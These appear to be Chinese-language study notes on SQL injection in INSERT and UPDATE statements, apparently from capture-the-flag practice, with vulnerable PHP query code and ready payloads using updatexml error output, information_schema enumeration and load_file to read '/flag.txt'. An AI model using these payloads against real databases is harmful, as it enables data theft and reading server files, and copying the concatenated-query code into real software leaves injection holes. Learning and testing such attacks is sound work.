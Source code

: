 这里代表一定的非select注入。
<https://www.cnblogs.com/babers/articles/7252401.html>
## **insert注入**
**1、如果存在报错回显，使用报错**
```
如：
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
2、**插入记录回显注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";

dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
dpt_name=1',sds_address=(select flag from sds_fl9g)#
```

^
## **update的注入**
```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

如果在代码中可知
update语句中，在update后面有注入，
即old_address=$row['address']
```
1、修改前面字段值
```
可以通过注入修改此时的前面字段的值，如address字段
',`address`=database()#

',`address`=(select(load_file("/flag.txt")))#
```
2、where报错注入
```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```